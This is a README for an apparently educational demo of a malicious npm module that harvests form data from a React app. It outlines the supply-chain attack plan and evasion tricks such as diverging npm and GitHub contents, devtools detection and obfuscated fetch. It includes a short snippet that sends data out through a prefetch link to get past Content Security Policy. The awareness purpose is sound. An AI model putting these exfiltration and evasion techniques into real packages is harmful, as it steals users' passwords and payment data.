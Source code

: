 If you're like me, you have grown to love how productive you can be using NPM. There is a staggering number of common problems that have already been solved. As developers, we tend to have a great deal of trust towards NPM and the code that it hosts. How often do we carefully examine the code we are about to import into our projects?

The following project aims to show the dangers of blindly importing NPM modules. It shows how just because you can see the code on Github does not mean the module you are importing is safe. It also demonstrates how all it takes is one disgruntled employee to start harvesting user's data, both silently and indefinitely. It shows just how hard it is to sniff out such an attack by utilizing some clever tricks. Finally, it aims to show how as our javascript project's dependencies grow, our risk of being affected by such an attack increases dramatically.

### Credit

This entire project is based off [this Medium Post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). Credit to it's author, David Gilbertson, for all the ideas and even some of the code.

### What all is here?

1. A basic React app with some form inputs that we will harvest
    * Created with create-react-app
    * found in /demo/src
2. A npm module, 'bad_juju', that will house our malicious code while presenting itself as a useful module
    * found in /node_modules/bad_juju
3. An api to receive the form data
    * Express server

### Running the React Application

```javascript
# within demo dir
> yarn
> yarn start
```

### Running the API

```javascript
# within demo dir
> yarn
> node ./api
```

### How does the attack work?

1. User creates seemingly useful node_module
2. When imported, our node_module applies exploit to all forms on the site/application
3. Send all form data to an API - this should a) not be visible to humans and b) appear as though its just an analytics link
4. Be clever about how/when we send the form data and use all the information available to judge how safe it is to send
5. Make Pull Requests to Open Source projects and attempt to add our dependency to the project
6. Sit back and watch the data pour in

##### What shows in Github is not necessarily what is in NPM
using .gitignore, .npmignore, and the files configuration option in our package.json, we can have different code in NPM than what shows in Github. So you really have no clue what code you are running from NPM, even if you have complete access to the github source. The only way to check this would be to check the 3 config files from the first sentence of this section. I bet you don't do that every time you install an NPM module, do you?


### Content Security Policy
This is supposed to be our saving grace, right? Wrong. In Chrome, we can bypass the content security policy using the following code
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

### Why is NPM the distribution method?
When we add a dependency to our project, NPM will automatically pull in all of this new dependency's dependencies. This means that if one popular package gets infected, it will likely spread to hundreds or thousands of smaller packages. An infected top level package would be bad news for everyone. Remember left_pad?

### So what... I can never use NPM modules?
Well that certainly is one option... If you truly want to ensure that you will never fall victim to this attack, you must isolate any pages with sensitive form data outside of the scope of the NPM modules. Example, for a login or checkout screen, you may want to embed an isolated page within an iFrame. This way no offending code will be able to attack the content with the iFrame. As a simple solution, one could stick to some good old fashion HTML.

### Presenting this content
I created this project for a couple of reasons, namely, to recreate what David Gilbertson has described in his blog post. I ended up having a ton of fun setting this up, and wanted to turn it into a short talk - not unlike those you may find at a developers conference. 

Without further ado, here's the order I settled on when presenting:

1) Background terminology
    * What is NPM?
    * What is Content-Security-Policy? CORS?
    * What is fetch?
2) Demo the React Application + Look at the App/Form code
3) Demo the api + Look at the api code
    * Reminder that in the real world, the domain would look like an analytics site
4) Toggle on various checks in the code
    1) QA working
    2) Devtools open (The Heisenberg Manuever)
    3) Randomize attempts
    3) Known Devices
    4) In Dev/UAT/QA/Staging environment
5) Gitignore and Npmignore tricks
6) Obfuscated fetch (cipher technique + EventSource API)
7) Content-Security-Policy Bypasses
    * Append created link element w/ prefetch
    * report-uri not explicitly set
    * default-uri not explicitly set
    * Pre-reading the active Content-Security-Policy and acting on it
    * undefined form-action override
      * only perform once and bounce back - hope the user just shrugs it off
8) What can you do about it?
9) Questions/Comments


### Possible Improvements
* Failed api requests should fail silently
* Make the Content-Security-Policy configurable on both ends
* This demo got more involved than I was anticipating, proper tests around the exploit would be nice.
* A more elegant (read: functional) way to configure/run the various safety nets

